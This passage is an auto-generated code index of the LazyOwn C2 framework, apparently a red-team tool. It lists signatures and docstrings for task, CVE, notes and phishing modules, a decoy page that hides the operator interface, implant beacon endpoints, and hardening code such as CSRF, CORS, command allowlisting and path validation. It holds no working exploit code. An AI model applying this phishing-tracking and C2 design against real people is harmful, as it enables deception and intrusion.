- `task_detail` (line 33) `def task_detail(task_id)` - *View a single task by ID.*
- `get_tasks` (line 48) `def get_tasks()` - *Return all tasks as JSON.*
- `tasks` (line 57) `def tasks()` - *Render the tasks list page.*
- `edit_task` (line 66) `def edit_task(task_id)` - *Edit an existing task.*
- `cves` (line 92) `def cves()` - *List all CVEs or create a new one.*
- `cve_detail` (line 117) `def cve_detail(cve_id)` - *View a single CVE by ID.*
- `edit_cve` (line 132) `def edit_cve(cve_id)` - *Edit an existing CVE entry.*
- `edit_notes` (line 158) `def edit_notes()` - *View or edit the operator notes.*
- `get_notes` (line 173) `def get_notes()` - *Return notes as JSON.*
- `view_note` (line 182) `def view_note()` - *Render the notes view page.*
- `event_config` (line 192) `def event_config()` - *Return event configuration as JSON.*
- `event_config_view` (line 198) `def event_config_view()` - *View or update event configuration.*
- `events` (line 218) `def events()` - *Render the events page.*

#### `phishing.py`
**Path:** `lazyc2/blueprints/phishing.py`
**File Doc:** *Phishing blueprint for the LazyOwn C2 server.  Short URL management, phishing campaign tracking, behavioural logging, and file-serving endpoints.  Registered under no prefix (the short URL redirect endpoint must live at ``/`` so it can capture arbitrary paths).*

**Functions:**
- `_get_config` (line 43) `def _get_config(key, default)` - *Read a value from the Flask app config (set by app factory).*
- `create_short_url` (line 49) `def create_short_url()` - *Create one or more short URLs for a single original URL.

Request JSON:
    ``original_url`` (str, required): Target URL or file path.
    ``custom_short_url`` (str, optional): Custom short code.
    ``count`` (int, optional): Number of short URLs to create
        (default 1).

Returns:
    200 with the list of generated short codes, or 400 on
    validation failure.*
- `track_interaction` (line 89) `def track_interaction(short_url)` - *Serve a tracking page and log behavioural data.

Logs client IP, user-agent, and optional behaviour data to the
C2 database. Renders ``tracking_page.html`` for real-user
simulation.*
- `update_short_url` (line 125) `def update_short_url(short_url)` - *Update an existing short URL's target or active status.

Request JSON (at least one):
    ``original_url`` (str): New target URL.
    ``active`` (bool): Enable or disable the short URL.*
- `redirect_to_file` (line 151) `def redirect_to_file(short_url)` - *Resolve a short URL and redirect (or serve a local file).

File targets are resolved through ``resolve_contained_file_path``
so only files inside the sessions directory are served; anything
else fails closed with 404. Remote targets issue an HTTP redirect.*
- `webserver_report` (line 174) `def webserver_report(filename)` - *Serve nmap HTML report assets from the sessions directory.

Path validation is enforced through :class:`SessionPathResolver`.*
- `download_files` (line 192) `def download_files(filename)` - *Serve a session file by name with path-traversal protection.

Enforces strict basename containment, secure filename sanitisation,
realpath containment, and an extension allowlist.*

#### `session_auth.py`
**Path:** `lazyc2/blueprints/session_auth.py`
**File Doc:** *Session-based authentication gate for operator dashboard blueprints.  Some dashboard blueprints (tasks, addons, notes) were previously protected only by the decoy IP check, so any request arriving from the operator IP could read operator data without a login session. This module closes that gap with a single reusable guard: every route on a guarded blueprint requires an authenticated Flask-Login session, and unauthenticated requests are redirected to the login page.  Implant-facing blueprints (beacons, phishing redirects, health APIs) must NOT use this gate.*

**Functions:**
- `require_operator_session` (line 20) `def require_operator_session(blueprint, login_endpoint)` - *Register a ``before_request`` guard on a blueprint.

All routes on the guarded blueprint serve operator-only content, so
the guard treats every method the same way. The per-view decoy and
CSRF layers keep running after the session check.

Args:
    blueprint: The Flask blueprint to protect.
    login_endpoint: Endpoint name the login redirect targets.*
- `_guard` (line 36) `def _guard()`

#### `__init__.py`
**Path:** `lazyc2/extensions/__init__.py`
**File Doc:** *Shared C2 extension modules.  Each module is a self-contained set of helpers that the monolithic ``lazyc2.py`` and/or individual Flask blueprints import. Call the module-level ``configure()`` function during app initialisation to set paths.*

*No symbols extracted*

#### `decoy.py`
**Path:** `lazyc2/extensions/decoy.py`
**File Doc:** *Decoy / honeypot page for unauthenticated visitors.  When a request comes from an IP that is not the operator's lhost the C2 renders a decoy HTML page instead of the real interface.*

**Functions:**
- `decoy_response` (line 12) `def decoy_response()` - *Return a decoy page when the client IP is not the operator host.

Reads ``lhost`` from ``current_app.config`` and compares it
against ``request.remote_addr``. Returns the rendered ``decoy.html``
template when they differ, or ``None`` when the client is allowed.

Returns:
    Rendered decoy template string or ``None``.*

#### `short_urls.py`
**Path:** `lazyc2/extensions/short_urls.py`
**File Doc:** *Short URL management utilities for the C2 phishing module.  Provides load/save/validation helpers for short URL redirection and phishing campaign tracking. Intended for internal use by :mod:`lazyc2.blueprints.phishing`.*

**Functions:**
- `configure` (line 21) `def configure(sessions_phishing_dir)` - *Set the phishing directory where short_urls.json lives.

Args:
    sessions_phishing_dir: Absolute or relative path to the phishing
        session directory.*
- `load_short_urls` (line 33) `def load_short_urls()` - *Load short URLs from JSON file, creating it if it doesn't exist.

Returns:
    A dict mapping short URL keys to their metadata (original_url,
    active, created_at).*
- `save_short_urls` (line 59) `def save_short_urls(data)` - *Save short URLs to JSON file.

Args:
    data: Dict mapping short URL keys to their metadata.*
- `_get_safe_file_path` (line 74) `def _get_safe_file_path(user_path)` - *Resolve a user-supplied path safely under ALLOWED_BASE_DIR.

Args:
    user_path: Raw path supplied by the caller (possibly ``file://``
        prefixed).

Returns:
    Absolute safe path if the resolved location is contained under
    ``ALLOWED_BASE_DIR``, otherwise ``None``.*
- `is_valid_url` (line 104) `def is_valid_url(url)` - *Validate if the input is a valid URL or existing local file path.

Args:
    url: URL string or local file path to validate.

Returns:
    ``True`` when the value is a valid web URL or an existing local
    file under the allowed base directory.*

#### `storage.py`
**Path:** `lazyc2/extensions/storage.py`
**File Doc:** *JSON-file storage helpers for the C2 web interface.  Provides load/save helpers for tasks, CVEs, notes, events, notifications, banners, and dynamic routes. All files live under ``sessions/`` and are managed with atomic write patterns.*

**Functions:**
- `configure` (line 18) `def configure(sessions_dir)` - *Set the session directory path.

Args:
    sessions_dir: Path to the session storage directory.*
- `load_tasks` (line 31) `def load_tasks()` - *Load tasks from ``sessions/tasks.json``.

Returns:
    A list of task dicts.*
- `save_tasks` (line 45) `def save_tasks(tasks)` - *Persist tasks to ``sessions/tasks.json``.

Args:
    tasks: List of task dicts.*
- `load_cves` (line 59) `def load_cves()` - *Load CVEs from ``sessions/cves.json``.

Returns:
    A list of CVE dicts.*
- `save_cves` (line 73) `def save_cves(cves)` - *Persist CVEs to ``sessions/cves.json``.

Args:
    cves: List of CVE dicts.*
- `load_note` (line 87) `def load_note()` - *Load the operator note from ``sessions/notes.txt``.

Returns:
    A dict with a single ``content`` key.*
- `save_note` (line 107) `def save_note(content)` - *Persist the operator note to ``sessions/notes.txt``.

Args:
    content: Note body string.*
- `load_event_config` (line 121) `def load_event_config()` - *Load event configuration from ``event_config.json``.

Returns:
    A dict with an ``events`` list, or an empty config.*
- `load_notifications` (line 137) `def load_notifications()` - *Load notifications from ``sessions/notifications.json``.

Returns:
    A list of notification dicts.*
- `load_banners` (line 154) `def load_banners()` - *Load banners from ``sessions/banners.json``.

Returns:
    A list of banner dicts, or ``None`` when the file is absent.*
- `load_routes` (line 179) `def load_routes()` - *Load dynamic routes from ``sessions/routes_to_templates.json``.

Returns:
    A dict mapping route paths to template names.*
- `save_routes` (line 194) `def save_routes(routes)` - *Persist dynamic routes with atomic write and safe permissions.

Args:
    routes: Dict mapping route paths to template names.*

#### `users.py`
**Path:** `lazyc2/extensions/users.py`
**File Doc:** *User management utilities for the C2 auth module.  Provides load/save helpers for both the legacy JSON user store and the RBAC-backed store. The RBAC path falls through to lazyc2.py globals during the migration period.*

**Functions:**
- `configure` (line 16) `def configure(users_path)` - *Set the path for the legacy JSON user file.

Args:
    users_path: Path to the users JSON file.*
- `load_users` (line 26) `def load_users()` - *Load users from the JSON store or RBAC store.

Returns:
    A list of user dicts.*
- `save_users` (line 48) `def save_users(users)` - *Persist users to the JSON store or RBAC store.

Args:
    users: List of user dicts.*

#### `models.py`
**Path:** `lazyc2/models.py`
**File Doc:** *C2 data models extracted from lazyc2.py.  Breaking the circular dependency between lazyc2.py and blueprints.*

**Classes:**
- `User` (line 16) `class User(UserMixin)`

**Methods:**
- `__init__` (line 17) `def __init__(self, user_data)`

#### `__init__.py`
**Path:** `lazyc2/security/__init__.py`

*No symbols extracted*

#### `command_allowlist.py`
**Path:** `lazyc2/security/command_allowlist.py`
**File Doc:** *Command allowlist policy for the LazyOwn C2 ``/api/run`` endpoint.  Contract: this module gates arbitrary command execution so only commands whose first whitespace-delimited token is on a configurable allowlist can reach the LazyOwn shell. Shell metacharacters are always rejected as a defence-in-depth check independent of the allowlist.  Invariants:  1. The first non-whitespace token of the command is matched against the allowlist in a case-insensitive way. 2. Any of the characters ``;``, ``|``, ``&``, ``$``, ``>``, ``<``, backtick, newline, carriage return, or backslash causes a rejection with reason :class:`CommandRejectionReason.SHELL_METACHAR`. 3. Empty / whitespace / non-string commands reject with reason :class:`CommandRejectionReason.EMPTY`. 4. When ``audit_log_path`` is set, every decision is appended as a single JSON line so the operator can review what was attempted.  Config keys owned:  - ``c2_api_command_allowlist`` (CSV string, default ``"ping,set,show,help,status,sessions,sitrep,gets,get,downloader,getosession,osession,setar,getar,session,clean"``)*

**Classes:**
- `CommandRejectionReason` (line 36) `class CommandRejectionReason(StrEnum)` - *Why a command was rejected by :class:`CommandAllowlist`.*
- `CommandDecision` (line 48) `class CommandDecision` - *The outcome of a single command allowlist check.

Attributes:
    allowed: ``True`` if the command may be executed.
    reason: The rejection reason, or ``None`` when allowed.
    first_token: The normalized first token, useful for audit logs.*
- `CommandAllowlist` (line 70) `class CommandAllowlist` - *Allowlist gate for the ``/api/run`` endpoint.

Args:
    allowed: Iterable of allowed first tokens. Order is irrelevant;
        matching is case-insensitive.
    audit_log_path: Optional filesystem path. When provided, every
        decision is appended as one JSON object per line.*

**Methods:**
- `to_dict` (line 61) `def to_dict(self)` - *Return a JSON-serializable dict for the audit log.*
- `__init__` (line 82) `def __init__(self, allowed, audit_log_path)`
- `allowed` (line 94) `def allowed(self)` - *Return the immutable set of allowed first tokens (lowercased).*
- `check` (line 98) `def check(self, command)` - *Return the :class:`CommandDecision` for ``command``.

Args:
    command: The raw command string from the request.

Returns:
    A :class:`CommandDecision` describing the outcome. The
    decision is also written to the audit log if configured.*
- `_audit` (line 126) `def _audit(self, decision, command)`

#### `constants.py`
**Path:** `lazyc2/security/constants.py`
**File Doc:** *Security constants and validation patterns for the LazyOwn C2 web layer.  All regex patterns, length limits, and allowlists are defined here to ensure single-source-of-truth and eliminate magic numbers.*

*No symbols extracted*

#### `cors.py`
**Path:** `lazyc2/security/cors.py`
**File Doc:** *CORS origin allowlist policy for the LazyOwn C2 web layer.  Contract: this module owns the single source of truth for which origins the C2 web layer and its Socket.IO transport are willing to serve.  Invariants:  1. The wildcard ``"*"`` is never permitted; an empty allowlist is allowed only when ``env != "PROD"`` and falls back to ``https://{lhost}``. 2. CSV strings are split on comma, trimmed, and empty tokens skipped. 3. ``"*"`` tokens inside a CSV are silently dropped (defence in depth). 4. ``is_allowed(origin)`` matches by ``scheme://hostname[:port]`` so the port may differ between the configured origin and the request. 5. ``origins_for_socketio()`` returns the allowlist expanded with the configured ``c2_port`` and the common C2 ports so flask-socketio's exact-match check on the ``Origin`` header passes for the xterm.js and beacon clients. 6. The policy is intentionally immutable: ``resolve_origins()`` can be called repeatedly and returns a fresh list each time.  Config keys owned:  - ``env`` (string, default ``"DEV"``) - ``lhost`` (string, used for the dev fallback) - ``c2_port`` (int, used to expand the socketio allowlist) - ``c2_allowed_origins`` (string CSV or list of strings, default ``""``)*

**Classes:**
- `CorsConfigError` (line 46) `class CorsConfigError(ValueError)` - *Raised when the CORS configuration is invalid for the current env.*
- `CorsPolicy` (line 50) `class CorsPolicy` - *Immutable CORS allowlist derived from the LazyOwn runtime config.

Args:
    env: Runtime environment tag, usually ``"PROD"`` or ``"DEV"``.
    lhost: Loopback or operator-side address used for the dev fallback.
    allowed_origins: Either a CSV string or a sequence of origins.
    c2_port: Optional C2 port used to expand the Socket.IO allowlist.
    extra_socketio_ports: Optional additional ports to include in the
        Socket.IO expansion. Defaults to the common C2 ports.*

**Functions:**
- `_origin_matches` (line 197) `def _origin_matches(allowed, candidate)` - *Return ``True`` if ``candidate`` matches ``allowed`` ignoring port.

Args:
    allowed: A configured origin like ``"https://c2.example:8443"``.
    candidate: The ``Origin`` header value to check.

Returns:
    ``True`` when scheme and hostname match, regardless of port.*
- `_scheme_of` (line 221) `def _scheme_of(origin)`
- `_host_of` (line 228) `def _host_of(origin)`

**Methods:**
- `__init__` (line 70) `def __init__(self, env, lhost, allowed_origins, c2_port, extra_socketio_ports)`
- `env` (line 85) `def env(self)` - *Return the normalized environment tag (``"PROD"`` or ``"DEV"``).*
- `resolve_origins` (line 89) `def resolve_origins(self)` - *Return the validated allowlist of origins for the current env.

Returns:
    A list of origins such as ``["https://c2.example"]``.

Raises:
    CorsConfigError: when ``env`` is ``"PROD"`` and the resolved
        allowlist is empty.*
- `origins_for_socketio` (line 110) `def origins_for_socketio(self)` - *Return the allowlist to feed ``flask_socketio.SocketIO``.

``flask_socketio`` does an exact match between the request
``Origin`` header and the list passed as ``cors_allowed_origins``.
The browser typically sends the full origin including the port
(e.g. ``https://127.0.0.1:5000``), so this method expands the
policy with the configured ``c2_port`` and the common C2 ports
so the WebSocket upgrade succeeds.

Returns:
    A deduplicated list of origins with explicit ports.*
- `is_allowed` (line 136) `def is_allowed(self, origin)` - *Return ``True`` if ``origin`` matches any allowed entry.

Args:
    origin: The ``Origin`` header from the incoming request.

Returns:
    ``True`` when the origin is in the allowlist (port-insensitive),
    ``False`` otherwise.*
- `_socketio_ports` (line 157) `def _socketio_ports(self)`
- `_collect_candidates` (line 166) `def _collect_candidates(self)`
- `_clean` (line 175) `def _clean(candidates)`
- `_dev_fallback_origins` (line 185) `def _dev_fallback_origins(self)`
- `_dev_fallback` (line 193) `def _dev_fallback(self)`

#### `csrf.py`
**Path:** `lazyc2/security/csrf.py`
**File Doc:** *CSRF protection policy for the LazyOwn C2 web layer.  Contract: this module issues per-session tokens that the client must echo back on every mutating request, except for a configured allowlist of exempt paths (login, logout, beacon endpoints).  Invariants:  1. Tokens are 32 URL-safe bytes (43 characters base64-encoded) generated with :func:`secrets.token_urlsafe`. 2. The token store is keyed by session id, so the same session always receives the same token until it is rotated. 3. Validation is constant-time to defeat timing oracles. 4. The exempt set is configurable; ``/login`` and ``/logout`` are always exempt by default, and ``/api/beacon/`` is exempt because implants cannot parse HTML to read a token. 5. ``GET``, ``HEAD``, ``OPTIONS``, and ``TRACE`` requests are treated as safe and bypass the check.  Config keys owned:  - ``c2_csrf_enabled`` (bool, default ``True``) - ``c2_csrf_exempt_paths`` (CSV string, default ``"/login,/logout,/register,/api/beacon"``) - ``c2_csrf_header`` (string, default ``"X-XSRF-TOKEN"``)*

**Classes:**
- `CSRFPolicy` (line 48) `class CSRFPolicy` - *Per-session CSRF token issuer and validator.

Args:
    header: HTTP header name carrying the token from the client.
    form_field: Form field name used as a fallback for older clients.
    cookie_name: Cookie name used to seed the client-side read.
    exempt_paths: Tuple of path prefixes that bypass the check.
    secret: Optional pre-shared secret. When ``None`` a fresh
        ``secrets.token_urlsafe(32)`` is generated at construction.*

**Methods:**
- `__init__` (line 69) `def __init__(self, header, form_field, cookie_name, exempt_paths, secret)`
- `header` (line 85) `def header(self)` - *Return the HTTP header name carrying the token.*
- `cookie_name` (line 90) `def cookie_name(self)` - *Return the cookie name that should hold the readable token.*
- `issue` (line 94) `def issue(self, session_id)` - *Return the token bound to ``session_id``.

Args:
    session_id: The Flask session id; must be a non-empty string.

Returns:
    A URL-safe token string, stable for the same session id.*
- `rotate` (line 111) `def rotate(self, session_id)` - *Force a fresh token for ``session_id``.

Args:
    session_id: The session id to rotate.

Returns:
    The new token.*
- `forget` (line 126) `def forget(self, session_id)` - *Drop the token bound to ``session_id`` (e.g. on logout).*
- `validate` (line 130) `def validate(self, session_id, candidate)` - *Return ``True`` iff ``candidate`` matches the stored token.

Args:
    session_id: The session id to look up.
    candidate: The token echoed back by the client.

Returns:
    ``True`` when the constant-time comparison succeeds.*
- `is_exempt` (line 147) `def is_exempt(self, path)` - *Return ``True`` if ``path`` is in the exempt set.

Args:
    path: The request path (e.g. ``"/login"``).

Returns:
    ``True`` when any exempt prefix is a prefix of ``path``.*
- `extract_token` (line 163) `def extract_token(self, request)` - *Return the token from a Flask-shaped request.

Args:
    request: An object exposing ``headers`` and ``form`` mappings.

Returns:
    The token string or ``None`` if absent.*
- `check_request` (line 182) `def check_request(self, session_id, request)` - *Run the full CSRF gate against a request.

Args:
    session_id: The session id derived from the request cookie.
    request: A Flask-shaped request.

Returns:
    ``True`` when the request should be allowed, ``False`` otherwise.*

#### `html_sanitizer.py`
**Path:** `lazyc2/security/html_sanitizer.py`
**File Doc:** *HTML sanitizer backed by ``bleach`` for the LazyOwn C2 web layer.  Contract: this module is the single source of truth for cleaning operator-supplied HTML before it is rendered. It replaces the previous regex-based approach in :mod:`lazyc2`, which was vulnerable to nested tag and ``javascript:`` URI bypasses.  Invariants:  1. ``<script>``, ``<iframe>``, ``<object>``, ``<embed>``, ``<style>`` and their contents are removed entirely. 2. ``on*`` event handlers are stripped from every element. 3. ``javascript:`` URIs in ``href`` and ``src`` are neutralised. 4. Benign tags (``p``, ``strong``, ``em``, ``ul``, ``ol``, ``li``, ``a``, ``code``, ``pre``, ``h1``..``h6``, ``blockquote``) survive untouched. 5. The allowlist can be overridden by the caller, in which case the defaults from :mod:`lazyc2.security.constants` are not used.  Config keys owned: none (the defaults live in :mod:`lazyc2.security.constants`).*

**Functions:**
- `_strip_dangerous_blocks` (line 62) `def _strip_dangerous_blocks(raw_html)` - *Remove dangerous element blocks and their contents.

Args:
    raw_html: The HTML string to pre-process.

Returns:
    The HTML with ``<script>``, ``<style>``, ``<iframe>`` and the
    other dangerous block tags completely removed.*
- `sanitize_html` (line 78) `def sanitize_html(raw_html, allowed_tags, allowed_attributes)` - *Return a sanitized HTML string safe for ``render_template``.

Args:
    raw_html: The HTML to clean. ``None`` or empty returns ``""``.
    allowed_tags: Optional override for the tag allowlist.
    allowed_attributes: Optional override for the attribute map.

Returns:
    The sanitized HTML. Guaranteed to contain no ``<script>``,
    ``<iframe>``, ``<object>``, ``<embed>``, ``<style>``, ``on*``
    attributes, ``javascript:`` URIs, or HTML comments.*

#### `https_redirect.py`
**Path:** `lazyc2/security/https_redirect.py`
**File Doc:** *HTTPS redirect policy for the LazyOwn C2 web layer.  Contract: this module produces the response that a Flask ``before_request`` handler must return to force the client onto TLS in PROD, while leaving DEV traffic alone.  Invariants:  1. ``is_secure=True`` requests always pass through. 2. ``is_secure=False`` + ``env="PROD"`` + ``enabled=True`` returns a 301 redirect to the same URL with the scheme replaced by ``https``. 3. ``env="DEV"`` or ``enabled=False`` lets the request pass through. 4. The path, query string, and host header are preserved. 5. The redirect response is a small dataclass so the ``before_request`` handler does not have to import Flask at import time.  Config keys owned:  - ``c2_https_redirect`` (bool, default ``True``) - ``env`` (string, default ``"DEV"``)*

**Classes:**
- `RedirectResponse` (line 29) `class RedirectResponse` - *A 301 redirect reply compatible with Flask's ``before_request`` return.

Attributes:
    status_code: HTTP status code, always 301.
    location: Target URL the client should follow.*
- `HTTPSRedirect` (line 41) `class HTTPSRedirect` - *Decide whether a request should be upgraded to HTTPS.

Args:
    env: Runtime environment tag, usually ``"PROD"`` or ``"DEV"``.
    enabled: When ``False``, the policy is a no-op.*

**Methods:**
- `__init__` (line 51) `def __init__(self, env, enabled)`
- `enabled` (line 56) `def enabled(self)` - *Return ``True`` when the policy is active.*
- `evaluate` (line 60) `def evaluate(self, request)` - *Return a redirect response, or ``None`` if the request can pass.

Args:
    request: A Flask-shaped request exposing ``is_secure``,
        ``host``, ``path``, and ``query_string`` attributes.

Returns:
    A :class:`RedirectResponse` to be returned from
    ``before_request``; ``None`` if no redirect is required.*

#### `services.py`
**Path:** `lazyc2/security/services.py`
**File Doc:** *Security services for the LazyOwn C2 web layer.  Services encapsulate stateful security operations such as safe file handling, secret generation, and content sanitization.*

**Classes:**
- `SecretKeyManager` (line 19) `class SecretKeyManager` - *Manages the Flask secret key lifecycle.

Generates a cryptographically secure secret key on first boot and
persists it to disk with restrictive permissions. Subsequent boots
load the persisted key. No fallback secrets are permitted.*
- `SafeFileService` (line 56) `class SafeFileService` - *Provides safe file read/write operations with path traversal protection.

All paths are resolved canonically and verified to be within the
configured base directory before any I/O occurs.*
- `AESKeyManager` (line 152) `class AESKeyManager` - *Manages AES key generation and validation.

Ensures keys are exactly the required size for AES-256-CFB.*
- `UploadSizeValidator` (line 183) `class UploadSizeValidator` - *Validates upload size constraints.

Stateless service that checks content length against configured limits.*

**Methods:**
- `__init__` (line 30) `def __init__(self, sessions_dir)`
- `get_or_create` (line 33) `def get_or_create(self)` - *Return an existing secret key or generate and persist a new one.

Returns:
    A hex-encoded secret key string.

Raises:
    RuntimeError: If the key file exists but cannot be read.*
- `__init__` (line 63) `def __init__(self, base_dir)`
- `_resolve_safe` (line 68) `def _resolve_safe(self, relative_path)` - *Resolve a relative path safely within the base directory.

Args:
    relative_path: A relative path string.

Returns:
    The resolved Path object.

Raises:
    PermissionError: If the resolved path escapes the base directory.*
- `read_bytes` (line 86) `def read_bytes(self, relative_path)` - *Read a file as bytes after path validation.

Args:
    relative_path: Relative path within the base directory.

Returns:
    File contents as bytes.

Raises:
    PermissionError: If path traversal is detected.
    FileNotFoundError: If the file does not exist.*
- `read_text` (line 102) `def read_text(self, relative_path, encoding)` - *Read a file as text after path validation.

Args:
    relative_path: Relative path within the base directory.
    encoding: Text encoding to use.

Returns:
    File contents as string.

Raises:
    PermissionError: If path traversal is detected.
    FileNotFoundError: If the file does not exist.*
- `write_bytes` (line 119) `def write_bytes(self, relative_path, data)` - *Write bytes to a file after path validation.

Creates parent directories if needed.

Args:
    relative_path: Relative path within the base directory.
    data: Bytes to write.

Raises:
    PermissionError: If path traversal is detected.*
- `exists` (line 136) `def exists(self, relative_path)` - *Check if a path exists after validation.

Args:
    relative_path: Relative path within the base directory.

Returns:
    True if the path exists, False otherwise.

Raises:
    PermissionError: If path traversal is detected.*
- `__init__` (line 158) `def __init__(self, key_file)`
- `get_or_generate` (line 161) `def get_or_generate(self)` - *Return an existing AES key or generate a new one.

Returns:
    A 32-byte AES key.

Raises:
    ValueError: If an existing key has an invalid length.*
- `__init__` (line 189) `def __init__(self, max_size_bytes)`
- `validate` (line 192) `def validate(self, content_length)` - *Validate upload size.

Args:
    content_length: The content length header value.

Raises:
    ValueError: If the content length exceeds the maximum.*

#### `trusted_proxy.py`
**Path:** `lazyc2/security/trusted_proxy.py`
**File Doc:** *Trusted proxy resolver for the LazyOwn C2 web layer.  Contract: this module decides what the real client IP is, taking the ``X-Forwarded-For`` chain into account only when the operator has declared one or more trusted reverse proxies in front of the C2.  Invariants:  1. When ``trusted_count == 0`` the resolver ignores ``X-Forwarded-For`` entirely and returns ``remote_addr``. 2. When ``trusted_count > 0`` the chain is parsed right-to-left; the rightmost ``trusted_count`` entries are considered proxy hops and discarded, and the leftmost remaining address is returned. 3. When the chain is shorter than ``trusted_count`` the resolver falls back to ``remote_addr`` rather than trusting a spoofed header. 4. ``is_operator(ip)`` does an exact-string comparison against the configured allowlist.  Config keys owned:  - ``c2_trusted_proxy_count`` (int, default ``0``) - ``c2_operator_ip_allowlist`` (CSV string, default ``"127.0.0.1,{lhost}"``)*

**Classes:**
- `TrustedProxyResolver` (line 30) `class TrustedProxyResolver` - *Resolve the real client IP from Flask's ``request`` data.

Args:
    trusted_count: Number of trusted reverse proxies in front of
        the C2. Set to ``0`` to disable header parsing.
    operator_allowlist: Iterable of operator IPs eligible for
        operator-only routes.*

**Methods:**
- `__init__` (line 42) `def __init__(self, trusted_count, operator_allowlist)`
- `trusted_count` (line 53) `def trusted_count(self)` - *Return the configured number of trusted proxy hops.*
- `client_ip` (line 57) `def client_ip(self, remote_addr, x_forwarded_for)` - *Return the resolved client IP.

Args:
    remote_addr: Flask's ``request.remote_addr``.
    x_forwarded_for: The ``X-Forwarded-For`` header value or
        ``None`` if missing.

Returns:
    The resolved IP string. Never empty.*
- `is_operator` (line 80) `def is_operator(self, ip)` - *Return ``True`` when ``ip`` is in the operator allowlist.

Args:
    ip: The IP string to test, typically the value returned by
        :meth:`client_ip`.

Returns:
    ``True`` for an exact-string match against the allowlist.*

#### `validators.py`
**Path:** `lazyc2/security/validators.py`
**File Doc:** *Input validators for the LazyOwn C2 web layer.  All validation functions are pure, stateless, and operate only on primitive types. They return ``(bool, str)`` tuples to enable detailed error messages without raising exceptions.*

**Functions:**
- `validate_route_path` (line 24) `def validate_route_path(route_path)` - *Validate a dynamic route path segment.

Args:
    route_path: The route path to validate.

Returns:
    A tuple of (is_valid, error_message).*
- `validate_template_name` (line 46) `def validate_template_name(template_name)` - *Validate a Jinja2 template filename.

Args:
    template_name: The template name to validate.

Returns:
    A tuple of (is_valid, error_message).*
- `validate_yaml_filename` (line 68) `def validate_yaml_filename(filename)` - *Validate a YAML filename for safe loading.

Args:
    filename: The filename to validate.

Returns:
    A tuple of (is_valid, error_message).*
- `validate_request_data` (line 86) `def validate_request_data(data)` - *Validate request data length to prevent buffer abuse.

Args:
    data: The data string to validate.

Returns:
    A tuple of (is_valid, error_message).*
- `validate_aes_key` (line 102) `def validate_aes_key(key)` - *Validate AES key length.

Args:
    key: The AES key bytes to validate.

Returns:
    A tuple of (is_valid, error_message).*
- `validate_password_length` (line 118) `def validate_password_length(password)` - *Validate password meets minimum length requirement.

Args:
    password: The password to validate.

Returns:
    A tuple of (is_valid, error_message).*
- `validate_upload_size` (line 134) `def validate_upload_size(content_length)` - *Validate upload size against maximum allowed.

Args:
    content_length: The content length header value.

Returns:
    A tuple of (is_valid, error_message).*
- `validate_file_path_within_base` (line 150) `def validate_file_path_within_base(file_path, base_dir)` - *Validate that a resolved file path is within a base directory.

Uses Path.resolve() to canonicalize paths and Path.relative_to()
to detect traversal. This is safer than string-based checks.

Args:
    file_path: The path to validate (may contain traversal).
    base_dir: The allowed base directory.

Returns:
    A tuple of (is_valid, error_message).*
- `resolve_contained_file_path` (line 174) `def resolve_contained_file_path(raw_url, base_dir)` - *Resolve a short-URL target to a file path contained in ``base_dir``.

Accepts ``file://`` URLs and bare filesystem paths. Remote ``http`` /
``https`` targets are not files, so this returns ``None`` for them and
the caller falls back to an HTTP redirect. Symlinks are resolved
before the containment check, so a link inside the base directory
pointing outside is rejected.

Args:
    raw_url: Short-URL target as stored in the registry.
    base_dir: Allowed base directory (sessions directory).

Returns:
    Resolved absolute path when contained, else None.*

#### `state.py`
**Path:** `lazyc2/state.py`
**File Doc:** *Global C2 server state — namespace for shared mutable objects.  Extracted from lazyc2.py to break the circular dependency between lazyc2.py and lazyc2/blueprints/. Both can import this module safely.*

*No symbols extracted*

#### `lazyc2.py`
**Path:** `lazyc2.py`

**Classes:**
- `_JsonLogFormatter` (line 423) `class _JsonLogFormatter(Formatter)` - *Optional structured JSON formatter for C2 access logs.*
- `Handler` (line 710) `class Handler(FileSystemEventHandler)`
- `CustomDNSResolver` (line 1710) `class CustomDNSResolver(BaseResolver)`
- `_LazyShellProxy` (line 2603) `class _LazyShellProxy` - *Stand-in for the shared CLI shell until first real use.

Attribute reads and writes forward to the lazily created shell,
so every existing ``shell.*`` call site works unchanged while
module load no longer builds the CLI tree.*
- `User` (line 2946) `class User(UserMixin)`

**Functions:**
- `_env_tag` (line 174) `def _env_tag()` - *Return the runtime environment tag from ``payload.json``.

Returns:
    The value of ``env`` in the payload, uppercased and defaulted
    to ``"DEV"``. The :class:`CorsPolicy` and :class:`HTTPSRedirect`
    both branch on this value.*
- `is_insecure_credential` (line 186) `def is_insecure_credential(user, pwd)` - *Check for weak or default credentials*
- `_listen_address` (line 234) `def _listen_address()` - *Return the bind address chosen by :class:`BindAddressResolver`.

The resolver receives the operator-supplied ``c2_bind_address`` and
``lhost`` candidates from ``payload.json`` in priority order. When
neither parses as a valid IP literal, the resolver falls back to
the loopback address unless the operator has explicitly enabled
``allow_unspecified_bind``, which is the documented opt-in for
exposing the C2 on every interface.*
- `_is_unspecified_bind_literal` (line 261) `def _is_unspecified_bind_literal(address)` - *Return True when ``address`` is a wildcard bind literal.

The C2 must never silently bind to every network interface, so the
helper is used as an inline sanitizer at the bind call sites where
static analysis cannot follow the value across functions.

Args:
    address: Candidate address literal.

Returns:
    True when ``address`` is ``0.0.0.0``, ``::`` or the empty
    string; False otherwise.*
- `_select_specific_bind_address` (line 280) `def _select_specific_bind_address(candidate)` - *Return a specific IP literal safe to pass to ``socket.bind``.

Wildcard addresses (``""``, ``"0.0.0.0"``, ``"::"``) are rejected
using an inline literal comparison so static analysers recognise
the sanitiser. The framework never auto-binds to every interface;
if the operator wants that behaviour they must put the specific
NIC address into ``c2_bind_address`` or ``lhost`` in
``payload.json``. When the candidate is not a parseable IP literal
the loopback fallback is returned.

Args:
    candidate: Operator-supplied address candidate.

Returns:
    A specific IPv4/IPv6 literal, defaulting to ``127.0.0.1`` when
    no valid specific literal can be derived.*
- `_probe_bind` (line 313) `def _probe_bind(address, port, sock_type)` - *Probe whether ``(address, port)`` can be bound for ``sock_type``.

The probe creates a transient socket, attempts the bind and closes
immediately. ``SO_REUSEADDR`` is set so that a recent close on the
same tuple does not raise a spurious ``EADDRINUSE``. The probe
refuses to bind a wildcard address unless the operator has
explicitly enabled :attr:`SecurityConfig.allow_unspecified_bind`,
so the function doubles as a fail-closed sanitizer for the bind
candidate flowing in from operator-controlled payload values.

Args:
    address: IPv4 address literal to test.
    port: Port number to test. ``0`` lets the kernel pick.
    sock_type: ``socket.SOCK_STREAM`` for TCP services or
        ``socket.SOCK_DGRAM`` for UDP services such as DNS.

Returns:
    Tuple ``(success, errno_value)`` where ``errno_value`` is the
